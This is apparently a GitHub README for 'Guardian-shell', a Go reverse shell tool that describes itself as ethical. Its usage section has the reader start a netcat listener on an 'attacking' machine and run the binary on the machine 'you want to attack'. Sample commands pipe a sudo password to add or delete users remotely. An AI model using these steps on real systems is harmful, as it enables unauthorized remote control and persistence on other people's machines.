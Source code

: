 ## what is it ?

Guardian-shell is a  secure reverse shell tool written in Go. Designed with a focus on responsible use and ethical practices, it facilitates secure communication between authorized parties. Guardian-shell empowers you with the ability to remotely execute commands on target machines, for easy system management and monitoring. 

## usage

step 1 : from your (attacking) machine run `nc -lvp 20090`

step 2 : run guardian_shell on the machine you want to attack. 
copy from this repo and paste it on the machine you want to attack and run it `./guardian-shell`
it will give you response `Connected to the reverse guardian listern!`

## sample commands

to add new user in remote linux server
```
echo ur_sudo_password | sudo -S useradd testuser; echo new_password_123 | passwd testuser
```

to delete user from remote linux server
```
echo ur_sudo_password | sudo -S userdel testuser
```

## on attacking machine 
![image](https://github.com/avvvet/guardian-shell/assets/25494022/23a2039c-0d53-4fa9-9551-0e0bf3eed47a)

## on the remote machine to be attached
![image](https://github.com/avvvet/guardian-shell/assets/25494022/bcc2d45a-f4ec-49ad-9def-8c46bad02074)